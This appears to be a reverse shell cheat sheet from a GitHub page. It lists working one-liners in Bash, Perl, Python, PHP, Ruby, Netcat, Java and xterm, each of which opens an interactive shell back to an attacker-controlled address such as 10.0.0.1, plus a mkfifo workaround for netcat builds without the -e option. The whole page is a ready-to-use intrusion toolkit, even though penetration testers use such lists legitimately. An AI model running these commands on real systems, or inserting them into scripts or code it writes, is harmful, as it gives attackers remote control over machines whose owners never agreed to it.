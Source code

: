 ## Reverse Shell Cheat Sheet


**Bash**

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

**PERL**

Here’s a shorter, feature-free version of the perl-reverse-shell:

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

**Python**

This was tested under Linux / Python 2.7:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

**PHP**

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

**Ruby**

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

**Netcat**

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

Linux

    nc -e /bin/sh 10.0.0.1 1234

Windows

    nc 10.0.0.1 1234 -e cmd.exe

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this: **IMPORTANT**

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

**Java**

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

[Untested submission from anonymous reader]

**xterm**

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port `6001`.

    xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

    Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip



## References

- https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md